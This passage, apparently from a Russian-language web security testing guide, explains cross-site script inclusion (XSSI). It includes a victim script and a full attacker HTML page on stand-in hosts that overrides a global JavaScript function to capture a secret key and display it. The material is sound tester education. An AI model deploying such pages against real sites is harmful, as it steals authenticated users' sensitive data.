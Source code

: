 В этом примере жертва аутентифицируется на `victim.com`. Злоумышленник заманивает жертву на `attackingwebsite.com` посредством социальной инженерии, фишинговых писем и т.д. Затем браузер жертвы извлекает `api.js `, что приводит к утечке чувствительных данных через глобальную переменную JavaScript и их отображению с помощью `innerHTML`.

### 2. Утечка чувствительных данных через глобальные параметры функций

Этот пример похож на предыдущий, за исключением того, что на `attackingwebsite.com ` используется глобальная функция JavaScript для извлечения чувствительных данных путём перезаписи глобальной функции JavaScript жертвы.

Ниже код `https://victim.com/internal/api.js`:

```javascript
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```

На сайте злоумышленника `attackingwebsite.com` размещается `index.html` со следующим кодом:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Утечка данных через глобальные параметры функций</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Вот ваш секрет: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```

Существуют и другие уязвимости XSSI, которые могут привести к утечке чувствительных данных либо через цепочки прототипов JavaScript, либо через глобальные вызовы функций. Подробнее об этих атаках см. [Неожиданные опасности динамического JavaScrip](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf).

### 3. Утечка чувствительных данных через CSV с «кражей цитат»

Для утечки данных злоумышленник/тестировщик должен иметь возможность инъекции кода JavaScript в данные CSV. Следующий пример кода представляет собой выдержку из статьи Takeshi Terada [XSSI-атаки на основе идентификаторов](https://www.mbsd.jp/Whitepaper/xssi.pdf).
